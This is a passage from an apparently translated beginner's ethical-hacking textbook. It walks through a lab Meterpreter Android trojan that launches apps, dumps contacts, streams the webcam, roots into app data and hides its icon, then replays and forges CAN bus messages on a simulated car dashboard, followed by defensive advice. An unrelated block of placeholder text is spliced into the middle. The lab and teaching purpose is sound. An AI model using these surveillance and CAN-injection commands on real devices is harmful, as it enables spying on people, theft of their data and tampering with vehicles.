================ Command           Description -------           ----------- activity_start    Start an Android activity from a Uri string check_root        Check if device is rooted dump_calllog      Get call log dump_contacts     Get contacts list dump_sms          Get sms messages geolocate         Get current lat-long using geolocation hide_app_icon     Hide the app icon from the launcher interval_collect  Manage interval collection capabilities send_sms          Sends SMS from target session set_audio_mode    Set Ringer Mode sqlite_query      Query a SQLite database from storage wakelock          Enable/Disable Wakelock wlan_geolocate    Get current lat-long using WLAN information
Application Controller Commands
=============================== Command        Description -------        ----------- app_install    Request to install apk file app_list       List installed apps in the device app_run        Start Main Activity for package name app_uninstall  Request to uninstall application
```

我们控制 Android 设备要做的第一件事是防止它进入睡眠模式。在 Meterpreter 提示符处输入以下命令：

```
meterpreter > wakelock -w
```

Meterpreter 将回复 `Wakelock was acquired`，如果你的 Android 设备之前已进入睡眠模式或变为黑屏，屏幕将唤醒，设备将保持唤醒状态，直到你释放 wakelock。

如果能同时在屏幕上显示 Android 和 Kali 虚拟机，运行 Meterpreter 命令并查看其效果将最为容易。（这种方法在攻击者黑进用户设备时，也有助于查看用户看到的内容。）如果你有双显示器，将 Kali 放在一个显示器上，Android 放在另一个显示器上。如果你只有一个屏幕，请尝试将 Kali 与 Android 并排放置，以便在工作时同时看到两者。

### 运行应用

一旦攻击者控制了移动设备，他们就可以远程启动任何想要的应用。为了了解其工作原理，让我们列出用户在设备上安装的应用。在 Meterpreter 终端窗口中，输入命令 `app_list`。Android 将列出智能手机上安装的每个应用，包括应用图标上显示的名称以及该应用的包统一资源标识符（URI）字符串。URI 字符串是我们用来识别 Android 设备上各种资源的方式。例如，你可能会看到 YouTube 应用列出如下：

```
  YouTube  com.google.android.youtube  false  true
```

行中的最后两个条目告诉你该应用是否正在运行，以及它是否是由操作系统安装的系统应用。在这里，`false` 值告诉我们 YouTube 应用当前未运行，而 `true` 值表示它是作为 Android 操作系统的一部分安装的标准应用。

既然我们知道 YouTube 已安装在 Android 设备上，我们可以使用 `app_run` 命令和 YouTube 的包 URI 字符串从 Meterpreter 启动它。输入以下内容：

```
meterpreter > app_run com.google.android.youtube
```

你将看到 YouTube 应用在你的 Android 虚拟机中打开！切换回你的 Android 虚拟机，搜索视频“Bryson Payne TED Talk”。你的 Android 虚拟机上的 YouTube 应用将调出该视频（不过你可能无法通过虚拟机听到音频，因为 VirtualBox 的驱动程序并不总是适用于智能手机和平板电脑操作系统）。

你可以通过这种方式在受感染的智能手机或平板电脑上运行任何应用，无需用户的许可或任何交互。尝试运行更多应用，例如设置（`com.android.settings`）或电话应用（`com.android.dialer`）。

你也可以请求卸载应用的权限，但用户会收到警报。尝试此命令：

```
meterpreter > app_uninstall com.google.android.gm
```

你的 Android 虚拟机将显示一个弹出窗口，询问你是否要卸载 Gmail，如 图 9-6 所示。单击 `Cancel` 以保留设备上的 Gmail 应用。较新 Android 设备上的安全设置会阻止 Meterpreter 木马卸载该应用。但是，拥有超级用户权限（我们将在“窃取文件和在日志中窥探”第 117 页中介绍）后，我们可以在用户不知情的情况下删除应用的数据甚至其主程序文件。


图 9-6：Android 在卸载应用前会询问用户权限。

在进行更多恶劣的黑客攻击之前，让我们最后运行一个应用，联系人：

```
meterpreter > app_run com.android.contacts
```

联系人应用将在你的 Android 虚拟机中打开。在它打开期间，我们将添加一个联系人，以便稍后在 Meterpreter 中窃取它。

1. 单击 Android 联系人屏幕右下角的添加联系人图标（一个带有加号 + 的红色圆圈）。

2. Android 会要求你添加一个帐户以访问 Google 联系人。单击 `Cancel`。（你不需要登录 Google 帐户即可在虚拟智能手机上添加联系人。）

3. 将出现创建新联系人窗口。输入你的姓名、一两个虚假电话号码和一个虚假电子邮件地址，如 图 9-7 所示。

4. 单击 `Save` 将新联系人保存到你的 Android 虚拟机。如果你想添加更多联系人，请单击 Android 屏幕底部的返回箭头。


图 9-7：使用联系人应用添加带有虚假信息的新联系人

### 访问联系人

Meterpreter 有几个命令用于访问我们存储在智能手机中的敏感数据。在 Kali 的 Meterpreter 控制台中运行 `help`，并查找几个以 `dump` 开头的命令：

```
    dump_calllog      Get call log dump_contacts     Get contacts list dump_sms          Get sms messages
```

由于我们的 Android 虚拟机不是物理 Android 设备，我们无法拨打电话或接收短信，但我们在上一节中添加了一个联系人。现在让我们窃取它。

1. 在 Meterpreter 中运行 `dump_contacts` 命令：


进入`/path/to/xxx`目录，找到`xxx.json`。

在表达式`cvar = avar + bvar`中，加法运算符（`+`）将`avar`与`bvar`相加，得到它们的和`cvar`

在`List.of(arg0, arg1, arg2)`中，`List`接口的工厂方法`of()`接受一系列的元素，返回包含它们的只读列表。

之后我们这样调用`cmd`命令：`cmd arg0 arg1 arg2`。

```
if (condVar > someVal) {console.log("xxx")}
```

---

[content]
```
meterpreter > dump_contacts [*] Fetching 1 contact into list
[*] Contacts list saved to: contacts_dump_20210927103858.txt
```

Meterpreter 将响应它找到的联系人数量，以及在你的 Kali 机器上保存这些联系人的文件名。

2. 在 Kali 虚拟机中打开第二个终端窗口并输入 `cd` 切换到主目录。然后输入命令 `ls con*` 列出 Meterpreter 倾倒在那里的任何联系人文件：

```
kali@kali:~# ls con*
contacts_dump_20210927103858.txt 
```

你会看到一个名为 `contacts_dump_` 后跟时间戳（年、月、日和数字格式的时间）的 `*.txt` 文件。

3. 输入 `cat con` 并按 `TAB` 键自动补全联系人文件名，然后按 `ENTER` 键显示文件内容：

```
kali@kali:~# cat contacts_dump_20210927103858.txt --snip--
#1
Name: Bryson Payne
Number: 404-555-1212
Email: brysonpayne@myuniversity.edu
```

攻击者可以看到智能手机联系人应用中列出的每个人的完整联系人信息，此外还可以阅读你的短信并查看你最近拨打的每个电话！

### 通过摄像头进行间谍活动

如果攻击者获得对你智能手机的远程控制，他们可以劫持设备的摄像头和/或麦克风。正如我们将看到的，这种间谍活动令人不安地容易。

1. 如果你有网络摄像头，请通过虚拟机菜单栏中的 `Devices`▶`Webcams` 将其连接到 Android 虚拟机，并选择其名称。

2. 连接网络摄像头后，重启 Android 虚拟机（选择 `Machine`▶`Reset` 并点击 `reset` 按钮）。然后通过点击 MainActivity 应用重新运行木马。

3. 在 Metasploit 中，在错误 `Meterpreter session closed` 后按 `ENTER`，然后输入命令 `exploit`。

4. 当新的 Meterpreter 会话启动时，输入命令 `webcam_list` 以查看列出的摄像头：

```
meterpreter > webcam_list
1: Back Camera
```

5. 使用命令 `webcam_stream` 查看来自摄像头的实时视频流：

```
meterpreter > webcam_stream
```

网络摄像头将开始（缓慢地）通过 Firefox 浏览器将视频流传输到你的 Kali 虚拟机，直到你关闭网络浏览器视频流并在 Meterpreter 终端中按 `CTRL-C`（在 Windows 上）或 `CONTROL-C`（在 macOS 上）以停止流。

正如你所见，如果你的设备曾通过类似我们构建的漏洞被攻破，攻击者可以从你智能手机的网络摄像头流传输视频，就像他们可以访问你的笔记本电脑或台式机网络摄像头一样。但与你的电脑网络摄像头不同，你可能随身携带智能手机去任何地方，你的朋友和家人也是如此。我们大多数人不想像对待笔记本电脑那样遮盖智能手机的摄像头，因此在我们安装智能手机上的哪些应用以及授予它们哪些权限时，更加要小心。

### 窃取文件和在日志中窥探

就像我们在 Windows 10 黑客攻击中所做的那样，我们可以使用 `upload` 和 `download` 命令从 Android 设备的存储中上传和下载文件。如果用户授予我们超级用户访问权限，我们甚至可以使用设备的 shell 终端访问受保护的敏感文件。

1. 在 Meterpreter 中输入 `shell` 以进入 Android 终端 shell：

```
meterpreter > shell
Process 1 created.
Channel 1 created.
```

2. Android shell 在行首不显示提示符，因此你的光标将位于空白行上。输入命令 `cd /` 和 `ls` 以更改目录到根 `/` 目录并列出设备上的所有文件夹：

```
cd /ls
acct
bugreports
cache
charger
config
d
data--snip--
```

`data` 文件夹包含大量用户数据，包括用户的 YouTube、浏览器和其他应用历史记录文件。还记得我们运行 YouTube 应用并搜索“Bryson Payne TED Talk”吗？如果应用存储了带有最近搜索结果的日志或历史记录文件，只要用户向应用授予管理员或超级用户权限，我们就可以访问这些文件。

3. 在 Meterpreter Android shell 中输入 `su` 以请求超级用户访问权限。

```
su
```

4. 立即在 Android 虚拟机中，你会看到权限窗口弹出，如 图 9-8 所示。点击 `Allow` 以授予 Meterpreter 超级用户访问权限。


图 9-8：授予 Meterpreter 超级用户访问权限

5. 更改目录到 `/data/data/com.google.android.youtube` 并使用 `ls` 列出目录内容：

```
cd /data/data/com.google.android.youtubels
cache
code_cache
databases
files
no_backup
shared_prefs
```

6. `databases` 文件夹包含应用使用的各种文件，包括一个存储 YouTube 搜索历史记录的文件。要找到该文件，请输入命令 `cd databases` 和 `ls`。

```
cd databasels
```

7. 在出现的简短文件列表中，你会找到 `history.db` 文件。运行命令 `cat history.db` 以查看设备的 YouTube 搜索历史记录。

```
cat history.db
����h�!##�mat 3@tablesuggestionssuggestionsCREATE TABLE suggestions (_id INTEGER PRIMARY KEY,display1 TEXT UNIQUE ON CONFLICT REPLACE,display2 TEXT,query TEXT,date LONG)5I#indexsqlite_autoindex_suggestions_1suggestionW--ctableandroid_metada��677bryson payne ted talkbryson payne ted talkl0�/cale TEXT)
��7	bryson payne ted talk
```

由于这是一个特殊的数据库格式文件，并非所有字符都可打印，但请看最后一行或两行——我们搜索的“Bryson Payne TED Talk”以纯文本形式可见！如果你在 YouTube 上搜索其他视频，然后再次运行该最后命令（`cat history.db`），你会看到新结果被添加到文件中。

8. 现在我们将 YouTube 搜索历史记录文件下载到 Kali 虚拟机。首先，我们需要将其复制到 Metasploit 木马应用的 `files` 文件夹：

```
cp /data/data/com.google.android.youtube/databases/history.db /data/data/com.metasploit.stage/files
```

9. 接下来，我们需要授予复制文件的访问权限：

```
chmod 666 /data/data/com.metasploit.stage/files/history.db
```

10. 通过按 `CTRL-C`（在 Mac 上为 `CONTROL-C`）退出 Android shell。Meterpreter 将响应一个提示，询问你是否要终止 `channel` 或 shell 连接。输入 `y`。

```
^C
Terminate channel 1? [y/N] y
```

11. 你现在将回到常规 Meterpreter 提示符，在那里你可以将 YouTube 历史记录文件下载到 Kali 虚拟机的主文件夹（`/home/kali/`）：

```
meterpreter > download history.db
```

12. 在单独的终端窗口中，输入 `ls` 以确认 `history.db` 文件已成功下载。然后输入 `cat history.db`，你将看到与在 Android shell 中看到的相同的文件内容，用户的 YouTube 搜索历史记录以纯文本形式显示。

恶意黑客可以使用此技术保存你的 YouTube 搜索历史记录。然而，如果你是为 FBI 或公司安全团队工作的取证数据分析师，你可以使用相同的技术来发现罪犯是否观看了 YouTube 视频以学习如何制造炸弹或犯下其他罪行。

### 关闭铃声及更多操作

你可以使用 Meterpreter 更改设置，并防止用户将其更改回来。例如，你可以通过在 Meterpreter 中输入以下命令来关闭 Android 虚拟机上的铃声：

```
meterpreter > set_audio_mode -m 0
[*] Ringer mode was changed to 0!
```

在你的 Android 虚拟机中，在主屏幕上向上滑动并选择 `Settings`。搜索“ring”并点击 `Ring volume` 打开声音设置。铃声音量已关闭，如 图 9-9 所示。


Figure 9-9: 当我们在 Meterpreter 中关闭铃声音量时，用户无法从“设置”屏幕将其重新打开！

Try to slide the Ring volume slider to the right or left. You won’t be able to! Meterpreter has locked the ring volume off by turning on a “Do not disturb” mode (much like sliding the mute switch on some smartphones). The user will have to find “Do not disturb” under Settings and turn it off to regain control of their smartphone’s ring volume.

There’s another change we can make that the user can’t override. You might have already thought to yourself, `If I saw an app I didn’t recognize, like MainActivity, I’d probably delete it`. So let’s hide the `MainActivity` app icon to make it harder for the user to delete our trojan app.

In Meterpreter, enter the following command to hide the `MainActivity` trojan app from the user’s list of installed apps:

```
meterpreter > hide_app_icon
[*] Activity MainActivity was hidden
```

Switch back to your Android VM, click the home button, and swipe up to show your apps. The `MainActivity` app will disappear from the list, as shown in Figure 9-10.


Figure 9-10: 从用户屏幕上隐藏我们的 MainActivity 应用图标

By hiding the app icon, we’ve made it difficult for the user to uninstall the trojan app. If an attacker hides the app icon at the very beginning, the user might not even know the trojan app had been installed! The user can still uninstall the trojan app, however, even if they can’t see it. Go to `Settings`▶`App info`, click `MainActivity`, and click `Uninstall`. Notice that stopping or uninstalling the app closes the Meterpreter session in the Kali VM. To reinstall the trojan app, go to your `Downloads` folder in Android and click the `CoolGame.apk` file like we did earlier.

## Defending Against Malicious Apps

To protect yourself from malicious apps, be careful about which apps you allow onto your smartphone. In short, think before you install! Use Google Play Protect on your Android device and view each security pop-up as a chance to reconsider what you’re doing. Even better, don’t download apps over the web or outside the Google Play Store, Apple’s App Store (if you’re on an iPhone), or your smartphone manufacturer’s store.

Malicious apps can make it into official app stores, though. That’s why it’s important to read which permissions an app is requesting when you install it. A game or simple app shouldn’t need access to your contacts, call logs, or text messages, and other than augmented-reality or location-based apps like `Pokémon Go`, an app shouldn’t require your location. If an app asks for more permissions than you think it should need, delete it and find one that does what you want with fewer permissions. Similarly, if an app you’ve installed ever asks for additional permissions—especially if it asks for superuser access—you can cancel the request or even delete the app. You `never` have to give more permission to an app than you want to, and most apps function perfectly well without being granted extensive permissions.

If you ever see apps opening on your smartphone that you didn’t open (like when we used Meterpreter to open YouTube on the Android VM), turn your smartphone off completely (don’t just turn off the screen). Press the power button on the side or top of the phone along with the volume up button for several seconds until the screen goes black (this works on most Android devices), or search (using a different device) for how to reboot or reset your specific device. It might also be a good idea to install a security app if you spot any suspicious activity on your smartphone or tablet. There are free or low-cost antivirus apps for most mobile devices that can detect malicious processes or communications if your smartphone ever gets hacked through an app.

Finally, just like on your desktop or laptop, don’t click suspicious links in emails or text messages. You can use VirusTotal to check most links by copying and pasting, just like you can on a desktop, but on your smartphone, you need to be even more careful about clicking malicious links. Remember, an attacker can access a lot of personal information (and even track your location!) if they’re able to trick you into clicking a bad link or installing a malicious app. So tell your friends, your family members, and other people you care about to be suspicious of any links they get via text message or email and to think before they install an app, especially if it’s from an unknown source.

## The Takeaway

In this chapter, you created an Android virtual machine that looks and works just like a real Android smartphone or tablet. You used Metasploit to create a Meterpreter remote access trojan for Android, almost exactly the same way you did for Windows 10 in Chapter 6, and you installed and launched the trojan on the Android VM. Once you gained control of the Android device, you saw how an attacker can run apps, steal contacts, upload and download files, hijack your camera, and snoop around in your search history.

You also learned that the best way to defend your mobile devices from malware is to avoid installing untrusted apps. Even if an app looks legitimate, delete or uninstall it if the app asks for more permissions than it needs. If your smartphone starts acting weird, reboot it, delete all suspicious apps, and consider installing a security app like an antivirus scanner if you suspect you accidentally installed malware.

In the next chapter, you’ll try one last hacking activity. You’ll see that hacking doesn’t apply just to computers, smartphones, and tablets. You can also use the tools in your Kali Linux VM to hack other network-connected devices in the world around you, from smart TVs to video game consoles and beyond. To prove it, we’ll hack a car!

# 10  

Car Hacking and the Internet of Things


Some of the coolest computers you can hack into are all around you every day, but you probably don’t think of them as computers. Many home appliances—like thermostats, security cameras, refrigerators, and Alexa or Google Home speakers—have a computer inside. These days, even cars have internet connections and computer systems that can be attacked by unethical hackers.

Internet-connected computing devices embedded in everyday objects are known as the `Internet of Things (IoT)`. IoT devices make our lives easier or better, but they can also pose serious security risks. Internet-connected medical devices may help keep us healthy and allow the manufacturer to monitor and update them remotely, but imagine if an attacker could hack someone’s pacemaker or insulin pump to harm the user. Likewise, satellite radio, GPS navigation, and 4G/5G wireless entertainment systems in your car make long road trips more convenient and fun, but all of those networks bring additional vulnerabilities that attackers could exploit. Imagine if someone hacked into your car and made it brake suddenly on the highway.

Ethical hackers hack IoT devices to find issues before attackers use them to do real damage. In this chapter, you’ll see how it works. You’ll hack into a simulated car network, watch the network messages the car sends, and write commands to control the car’s dashboard.

## Installing the Car-Hacking Software


对于此黑客攻击，我们将安装一个名为 `Instrument Cluster Simulator (ICSim)` 的软件包，这是一个虚拟仪表板，可让你像在实际车辆中一样查看和交互速度表、转向灯和车门锁。Craig Smith（又名 zombieCraig）和 OpenGarages 团队构建了 ICSim，以帮助黑客和研究人员安全且合乎道德地学习如何处理汽车网络，而不会损坏或摧毁实际车辆或无辜行人。

1. 打开终端窗口并更新 Kali 的软件包列表：

```
kali@kali:~$ sudo apt update
```

2. 现在通过输入以下内容安装 ICSim 的依赖项：

```
kali@kali:~$ sudo apt install libsdl2-dev libsdl2-image-dev can-utils
```

请注意，两个 `libsdl2` 包都在数字 2 之前使用小写字母 `L` 拼写。

3. 这样安装 ICSim：

```
kali@kali:~$ cd ~ 
kali@kali:~$ git clone https://github.com/zombieCraig/ICSim.git 
```

4. 在你的机器上设置 can-utils：

```
kali@kali:~$ cd ~
kali@kali:~$ git clone https://github.com/linux-can/can-utils
kali@kali:~/can-utils$ make
kali@kali:~/can-utils$ sudo make install
```

5. 使用这些命令设置 ICSim 仪表板模拟器软件：

```
kali@kali:~/can-utils$ cp lib.o ~/ICSim
kali@kali:~/can-utils$ cd ~/ICSim
kali@kali:~/ICSim$ make clean
kali@kali:~/ICSim$ make
```

现在运行我们的虚拟汽车仪表盘并开始黑客攻击！

## 准备虚拟 CAN 总线网络

汽车的网络被称为 `CAN bus`，或者简称 `CAN`。自 20 世纪 90 年代以来，CAN 总线一直用于大多数汽车，以控制各种系统和传感器，例如转向和制动、收音机、空调和娱乐中心。你刚刚安装的 ICSim 软件创建了一个 `virtual CAN (VCAN)` 总线网络，我们将学习攻击该网络。我们现在创建该网络并完成汽车黑客环境的设置。

1. 要设置 VCAN，请在 ICSim 文件夹内的终端中输入此命令：

```
kali@kali:~/ICSim$ sh setup_vcan.sh
```

2. 通过在终端中输入 `ip addr` 确保 VCAN 设置正确。你应该能看到自己的 IP 地址以及一个名为 `vcan0` 的新网络。

```
kali@kali:~/ICSim$ ip addr
--snip--
3: vcan0: <NOARP,UP,LOWER_UP> mtu 72 qdisc noqueue state UNKNOWN group default qlen 1000 link/can
```

3. 在终端中输入以下内容，指示它先使用我们刚刚创建的 vcan0 网络运行 ICSim，然后等待我们的命令：

```
kali@kali:~/ICSim$ ./icsim vcan0 &
```

你应该会看到一个模拟的仪表板，如 图 10-1 所示。


图 10-1：ICSim 程序显示带有速度表、转向灯等的模拟汽车仪表板！

4. 在 vcan0 上启动控制器应用程序：

```
kali@kali:~/ICSim$ ./controls vcan0 &
```

CANBus 控制面板窗口应该会打开。它看起来很像视频游戏控制器。

5. 通过单击窗口的任何角并拖动，调整控制面板的大小，使 ICSim 窗口可见。

6. 右键单击控制面板窗口的顶部栏并选择 `Always on Top`，如 图 10-2 所示。


图 10-2：保持控制器应用程序可见且易于访问

要驾驶虚拟汽车，请单击 CANBus 控制面板窗口，然后使用键盘发送命令。可用命令列在 表 10-1 中。按上箭头加速，使用左箭头和右箭头控制转向灯，依此类推。

表 10-1：CANBus 控制面板的键盘控制

| `Function` || `Key(s)` |

| --- | --- |

| `Accelerate` || 按住上箭头 (↑) |

| --- | --- |

| `Signal a left or right turn` || 按住左箭头或右箭头 (←/→) |

| `Unlock front-left or front-right door` || right\-SHIFT\-A 或 right-SHIFT\-B |

| `Unlock back-left or back-right door` || right\-SHIFT\-X 或 right-SHIFT\-Y |

| `Lock all doors` || 按住 right\-SHIFT + 轻按 left\-SHIFT |

| `Unlock all doors` || 按住 left\-SHIFT + 轻按 right\-SHIFT |

控制器应用程序是与 VCAN 交互的唯一方式——除非我们对其进行黑客攻击。

## 黑客攻击汽车

我们的汽车黑客攻击冒险将遵循测试大多数 IoT 设备安全性时使用的相同步骤：

1. 使用程序查看和记录控制器应用程序与仪表板之间 vcan0 网络上的流量。这种程序称为 `packet sniffer`，因为发送到网络上的消息称为 `packets`。

2. 识别哪些网络数据包和命令控制哪些汽车系统或功能。

3. 通过将捕获的数据包重新发送到 vcan0 网络，或从终端编写自己的命令来控制汽车。

### 查看数据包

我们将使用 `cansniffer`，即 can-utils 内置的数据包嗅探器，来监听我们的模拟汽车网络。

1. 在终端窗口中，使用以下命令启动 `cansniffer`：

```
kali@kali:~/ICSim$ cansniffer -c vcan0
```

2. 将终端窗口调整为又高又窄（如 图 10-3 所示），以便更容易查看 `cansniffer` 消息。你可能还需要按 CTRL 和 − 几次来减小字体大小。

3. 单击 CANBus 控制面板窗口并向虚拟汽车发送一些命令。尝试加速、使用转向灯等。

`cansniffer` 工具拦截在控制器应用程序和仪表板之间在 vcan0 上发送的数据包，并在终端窗口中显示它们。窗口中的每一行代表一个数据包。网络每秒传输几百个数据包，因此它们会很快闪过。

让我们看一个示例数据包，看看可以找到什么信息。以下是 图 10-3 中显示的数据包之一：

```
10.204188 2244 300 00 00 01 06 4.....
```


图 10-3：`cansniffer` 数据包嗅探器显示我们 vcan0 网络上的消息。

第一列是一个 `timestamp`，表示发送数据包的时间。第二列是消息发送到或来自的系统的 ID 号。正如我们将发现的那样，CAN ID# 244 代表速度表。第三列是 CAN 消息数据，由十六进制值表示，第四列包含以可打印字符表示的相同数据。

经验丰富的黑客知道如何分析数据包嗅探器捕获的流量，以确定不同数据包的含义。这需要练习和耐心。目前，尝试在控制器应用程序中按几次上箭头加速，同时留意终端窗口中的 ID# 244。随着加速和减速，查找消息数据列中变化的值。识别此模式是 ID #244 指代速度表的线索。

现在按转向灯（左箭头和右箭头）并留意 ID# 188。当你触动转向灯时，它应该出现，并在关闭几秒钟后消失。使用左 SHIFT 和右 SHIFT 键，或右 SHIFT 键加 X、Y、A 和 B 键来锁定和解锁车门，并观察 ID# 19B 旁边的数据变化。锁定或解锁车门时，19B 的行应该只出现片刻。


在终端窗口中按下 `CTRL-C` 以停止 `cansniffer`，当你实验得足够多时。不用担心数据包传输速度过快，你无法识别出特定的 ID。下一步将是记录一些数据包，以便你有时间自行研究。

## 捕获数据包

can-utils 工具 `candump` 记录来自 CAN 总线的消息，以便我们可以进一步分析它们，甚至重放它们。

1. 要开始从 `vcan0` 记录数据包，请输入此命令：

```
kali@kali:~/ICSim$ candump -l vcan0
```

`-l` 选项（即连字符和小写字母 `l`）是 `log` 的缩写，因为我们要求 `candump` 通过将数据保存到文件来记录其输出。

2. 切换回 CANBus 控制面板窗口并驾驶几秒钟。加速和减速，使用左转向灯和右转向灯，锁定和解锁车门。

3. 按下 `CTRL-C` 以停止记录。

4. 在终端窗口中，输入 `ls`（`list` 的缩写）以显示 `ICSim` 目录的内容。你应该会看到一个新文件，格式为 `candump-YYYY-MM-DD_time.log`（时间定义为小时、分钟和秒——`HHMMSS`），例如：

```
candump-2021-05-18_113713.log
```

`candump` 日志文件是一个简单的文本文件。你可以在文本编辑器中查看该文件，并使用 `CTRL-F` 查找特定的 CAN ID 值，例如转向灯的 `188`，如 图 10-4 所示。


图 10-4：在 Mousepad 文本编辑器中搜索特定的 CAN ID 值

## 重放数据包

通过在 `vcan0` 网络上重新发送我们在日志文件中捕获的数据包，我们可以让仪表盘“重现”记录的驾驶会话。这种黑客攻击被称为 `重放攻击`。

1. 首先，关闭 CANBus 控制面板。控制器窗口即使在空闲时也会不断发送信号，我们希望只使用我们捕获的数据包来控制仪表盘。

2. 在终端窗口中输入以下命令，使用 `canplayer` 工具重放日志文件，将 `candump-YYYY-MM-DD_time.log` 替换为你的日志文件名：

```
kali@kali:~/ICSim$ canplayer -I candump-YYYY-MM-DD_time.log
```

3. 你的 ICSim 仪表盘应该开始以与你最初捕获数据包时完全相同的方式移动。例如，在 图 10-5 中，我正在以每小时 90 英里以上的速度行驶时向右转并解锁所有四个车门！（我不建议你在真车上这样做。）


图 10-5：重放的数据包正在控制仪表盘。

许多 IoT 设备容易受到此类重放攻击。例如，当蓝牙门锁刚推出时，许多蓝牙门锁容易受到此类攻击。使用运行蓝牙无线嗅探器（如包含在 Kali 中的 `Kismet`）和物理蓝牙天线（如售价约 100 美元的 `Ubertooth One`）的笔记本电脑，你可以在有人使用智能手机开门时捕获数据包，并重放这些数据包以随时解锁门。如今，为了防止重放攻击，每条消息都会添加一个特殊值，以便系统可以判断它接收的是新消息还是之前见过的消息。

## 发送新命令

汽车黑客可以分析 `candump` 日志文件来解密 CAN ID 编号，并弄清楚每条消息中的数据值代表什么意思。掌握这些知识后，黑客可以向系统发送特定命令，使汽车按其意愿行驶。例如，向 ID# `188` 发送消息 `02000000` 会打开右转向灯。让我们试一下！

在打开 ICSim 并关闭控制器窗口的终端中输入以下命令：

```
kali@kali:~/ICSim$ cansend vcan0 188#02000000
```

我们使用 `cansend` 向 `vcan0` 发送 CAN 消息。该消息包含转向灯的 ID 编号（`188`），然后是作为分隔符的井号（`#`），最后是表示右转向灯的数据值（`02000000`）。你仪表盘上的右转向灯应该会亮起绿色。

如果你想打开左转向灯，请发送此消息：

```
kali@kali:~/ICSim$ cansend vcan0 188#01000000
```

要关闭转向灯，请发送消息 `188#00000000`。或者使用此命令同时打开两个转向灯：

```
kali@kali:~/ICSim$ cansend vcan0 188#03000000
```

现在，查看 `candump` 日志文件中与速度表（ID# `244`）相关的 CAN 数据包中的数据值。看起来，随着速度增加，最后四个十六进制数字会增大。数据值 `0000000000` 表示 0 英里每小时，而 `0000003894` 对应大约 90 英里每小时。让我们看看值 `0000009999` 会做什么：

```
kali@kali:~/ICSim$ cansend vcan0 244#0000009999
```

如 图 10-6 所示，速度表跳至 240 英里每小时！你可以使用十六进制设置得更高——尝试将最后四位数字更改为 `A000`、`B000`，甚至 `FFFF`。


图 10-6：我们可以通过使用 `cansend` 直接向 CAN 总线发送信号来控制仪表盘。

同样，我们可以通过发送消息 `19B#00000F000000` 锁定所有车门，并通过消息 `19B#000000000000`（井号后有 12 个零）解锁所有车门：

```
kali@kali:~/ICSim$ cansend vcan0 19B#00000F000000
kali@kali:~/ICSim$ cansend vcan0 19B#000000000000
```

我们的虚拟汽车认为它正在同时向左和向右转弯，并以每小时 240 英里的速度疾驰，同时解锁所有四个车门！

## 攻击者如何攻破真车

要使用你刚刚学到的相同 `can-utils` 工具和技能来攻破真车，攻击者只需要一台运行 Kali Linux 的笔记本电脑和一根将笔记本电脑连接到大多数汽车方向盘下方的 `车载诊断二代（OBD-II）` 接口的电缆。许多此类电缆售价低于 100 美元。然而，现实世界中的汽车黑客攻击是一件严肃的事情，可能导致重大财产损失或人身伤害。研究人员在受控条件下进行汽车黑客攻击，以寻找安全漏洞。如果你进行汽车黑客攻击，请务必在车库或车道上或在封闭赛道上安全地进行；绝不要在道路上或任何可能有人受伤的地方攻破汽车。

汽车黑客不一定总是需要与车辆保持有线连接才能发送命令。在直接连接到特定品牌和型号的汽车并找到有用的 CAN ID 编号和消息后，攻击者或安全研究人员可以尝试通过蓝牙、Wi-Fi 或 4G/5G 无线连接到汽车，以尝试远程发送 CAN 消息。一次高调的黑客攻击利用了驾驶员的免提智能手机连接，通过汽车的仪表盘娱乐系统远程控制了汽车。另一次攻击利用了特斯拉的 4G 无线空中更新系统来安装恶意软件并远程篡改汽车。

一个好消息是，每辆汽车都略有不同，一辆汽车中的 CAN ID 编号通常与另一辆汽车中的 CAN ID 不同。每个制造商使用不同的代码，有时同一制造商的每个型号使用一组不同的代码，并且这些代码可能会从一个车型年份变化到下一个车型年份！此外，现代汽车上有几种不同类型的控制器网络；`CAN` 只是最常见的一种。简而言之，破解真车上的代码需要大量的耐心。

## 要点


在本章中，我们使用了`ICSim`和`can-utils`来攻破一个虚拟汽车网络。我们在 Kali 虚拟机上设置了这些工具。然后我们使用`cansniffer`嗅探网络流量，以查看 CAN 数据的样子。我们使用`candump`捕获 CAN 信号，然后使用`canplayer`重放这些数据包，以在不使用汽车键盘控制的情况下更改仪表盘。我们还使用`cansend`发送特定的 CAN 消息，以使用转向灯、更改速度表，并直接从命令行解锁车门。最后，我们了解到，只需大约价值 100 美元的工具和大量的耐心，就可以攻破一辆真实的汽车。

# 11

十件你现在就可以做的事情来保护自己在线安全


你已经读完了这本书，但你作为道德黑客的旅程才刚刚开始。你现在知道坏人使用的技巧和工具——以及如何防御主要的攻击来源（物理攻击、社交工程、搜索引擎侦察、汽车和物联网攻击、恶意软件、密码破解、Web 服务器攻击和移动设备攻击）。换句话说，你已经学会了先攻击你自己！本章是对你可以采取的 10 件最重要的事情的快速回顾，以保护你自己和你关心的人免受线上和现实世界中的攻击。

## 1\. 意识到你是目标。

人们有时会说，“这永远不会发生在我身上”或“我无能为力”，然后他们最终成为恶意攻击的受害者。本书向你展示了攻破大多数设备出乎意料地简单，没有人能完全免受在线威胁。然而，通过采取一些明智的预防措施，你至少可以避免成为攻击者的`易`攻击目标。意识到你是一个潜在目标——并且你的个人信息对普通黑帽黑客来说很有价值——是保护你自己和你关心的人的重要第一步。

## 2\. 警惕社交工程。

如果有人试图让你做某事，无论是在线上还是线下，请停下来思考这是否符合你的最大利益。从咄咄逼人的二手车销售人员到网络犯罪分子再到网络掠食者，攻击者利用人类心理学来试图诱骗我们做他们想要的事。

要意识到并小心对待对你隐私的威胁。如果有人要求你提供个人信息，请考虑他们到底是谁。他们要求什么，为什么需要这些信息？尽可能避免被迫完全放弃你的信息：屏蔽不需要的联系人和社交媒体连接，删除可疑电子邮件而不回复，挂断自动语音电话，并删除垃圾短信。这些烦扰中的任何一个都可能是攻击者的入侵方式。

与此同时，约束自己不要在社交媒体上分享太多信息。在发布、拍照、推特或分享之前，想想谁能看到你的帖子以及他们可能会用这些信息做什么。你和你朋友的照片、你去过的地方（`永远`不要在度假期间发布度假照片）以及你喜欢的东西，都可能被攻击者用来诱骗你信任他们。

如果不确定，请与你信任的人交谈；向 FTC 报告网络犯罪，网址为 [`www.ftc.gov/`](https://www.ftc.gov/)，或向 FBI 报告，网址为 [`www.ic3.gov/`](https://www.ic3.gov/)，并向当地当局报告网络欺凌、跟踪或骚扰行为。

## 3\. 记住物理安全的重要性，并在可能时关闭设备。

物理访问即完全访问，因此要像对待在线安全一样小心对待物理安全。锁好门，保护好你的财物，并小心将什么插入你的计算机。如果你在咖啡店离开笔记本电脑哪怕几分钟，攻击者就可以访问你的文件或带走整台电脑。插入计算机的闪存驱动器或其他设备可用于窃取文件或启动恶意软件。

